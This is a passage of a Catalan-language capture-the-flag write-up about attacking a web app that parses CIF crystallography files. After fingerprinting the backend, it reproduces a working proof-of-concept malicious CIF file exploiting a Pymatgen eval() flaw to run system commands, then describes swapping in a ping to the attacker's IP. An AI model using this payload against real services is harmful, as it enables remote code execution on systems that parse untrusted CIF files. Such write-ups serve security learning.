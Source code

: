 ````bash
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
````
Si pugem aquest arxiu i hi accedim, podem veure que la informació del fitxer se'ns representa en forma de taula, separant per categories que hi ha definides dins d'aquest. 

![image](https://github.com/user-attachments/assets/fdaab062-b066-4377-91d7-8a0d6de0e466)

Si tirem de WhatWeb, a més, sabem que aquesta funcionalitat s'està duent a terme a nivell de backend a través d'alguna mena de script de Python, ja que la web està construïda amb Werkzeug 3.0.3.

![image](https://github.com/user-attachments/assets/a678a9c7-e062-4123-84e2-0f9b3a6bf36e)

## Initial foothold
El primer que ve al cap, doncs, és si podem manipular un arxiu .cif per introduir-hi codi maliciós amb Python. D'aquesta manera, tenim una via potencial per executar comandes a nivell de sistema. Buscant per Internet, trobem que la llibreria de Python que gestiona els arxius CIF, Pymatgen, té associada una vulnerabilitat que permet justament això, degut a que crida a la funció _eval()_ quan s'analitza la informació que li podem donar nosaltres de manera arbitrària.
La descripció oficial de la vulnerabilitat conté un PoC que permet explotar aquesta vulnerabilitat.
````bash
# Fitxer CIF maliciós
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
````

Substituïm la comanda de l'exemple per la que vulguem, en aquest cas provem de fer un ping a la nostra IP per comprovar si tenim execució remota de comandes i si tenim connexió cap a la nostra màquina atacant, tot en una sola vegada. Per tant, ens fiquem en escolta per la interfície _tun0_ amb TCPDump per capturar totes les traces ICMP que rebem.

![image](https://github.com/user-attachments/assets/22bd6ac3-3049-4458-a94c-9b74512d02d3)
